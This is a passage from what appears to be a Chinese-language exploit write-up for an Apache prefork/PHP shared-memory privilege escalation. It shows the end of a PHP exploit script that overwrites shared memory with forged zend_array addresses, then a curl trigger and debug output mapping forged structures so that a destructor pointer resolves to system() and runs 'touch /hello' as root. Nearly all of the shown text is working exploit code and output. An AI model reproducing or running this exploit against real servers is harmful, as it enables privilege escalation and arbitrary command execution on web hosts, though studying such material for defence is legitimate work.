```
$evil_shm_size = $evil_shm_end_addr - $evil_shm_start_addr;

$evil_shm_mid_addr = $evil_shm_start_addr + 8*((int)(((int)($evil_shm_size/2))/8) + 1);

echo "evil_shm_start:0x".dechex($evil_shm_start_addr)."\n";
echo "evil_shm_end:0x".dechex($evil_shm_end_addr)."\n";
echo "evil_shm_size:".dechex($evil_shm_size)."\n";

for($i = 0;$i&lt;$evil_shm_size;$i+=8)`{`
    write_mem_qword($evil_shm_start_addr+$i,$evil_zend_array_start_addr);
`}`


echo "evil_shm_mid_addr:0x".dechex($evil_shm_mid_addr)."\n";

echo "bucket:".dechex($bucket)."\n";
?&gt;
```

利用成功时，会在根目录下，创建hello文件

#### 步骤

##### 根目录显示

```
➜  ~ ls /
bin  boot  dev  etc  home  lib  lib64  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var  www
```

##### 让服务器执行恶意php代码

```
➜  ~ curl 127.0.0.1
PID: 19896
/dev/zero start addr:0x7f1f62a32000
/dev/zero end addr:0x7f1f62a4a000
self parent struct addr:0x7f1f62a32040
parent arr addr:0x7f1f62a32040
heap start addr:0xf59000
heap end addr:0x1022000
libapr text start addr:0x7f1f61ffa000
libapr text end addr:0x7f1f6202f000
libapr data start addr:0x7f1f6222e000
libapr data end addr:0x7f1f6222f000
all_buckets addr:0xff0c18
evil prefork_child_bucket start addr:0x7f1f62a321a8
evil prefork_child_bucket end addr:0x7f1f62a321e0
evil zend_array start addr:0x7f1f62a321e0
evil zend_array end addr:0x7f1f62a32218
evil mutex_methods start addr:0x7f1f62a32218
evil mutex_methods end addr:0x7f1f62a32268
evil string: touch /hello len:16
evil string start addr:0x7f1f62a32268
evil string end addr:0x7f1f62a32278
zend_object_std_dtor function addr:0x7f1f5c03d300
system function addr:0x7f1f617a94c0
child_init(0x7f1f62a32248) =&gt; zend_object_std_dtor
pDestructor(0x7f1f62a32210) =&gt; system
meth(0x7f1f62a321e8) =&gt; mutex_mthods_struct
mutex(0x7f1f62a321b8) =&gt; zend_array struct
properties(0x7f1f62a321d8) =&gt; zend_array struct
ar_data(0x7f1f62a321f0) =&gt; evil string

```